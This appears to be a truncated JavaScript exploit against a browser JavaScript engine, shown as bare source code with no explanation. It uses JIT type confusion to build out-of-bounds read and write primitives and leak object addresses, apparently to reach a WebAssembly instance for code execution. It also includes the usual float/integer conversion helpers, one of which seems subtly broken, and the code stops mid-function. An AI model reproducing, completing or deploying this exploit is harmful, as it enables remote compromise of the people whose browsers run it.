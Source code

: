 ```html
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
```
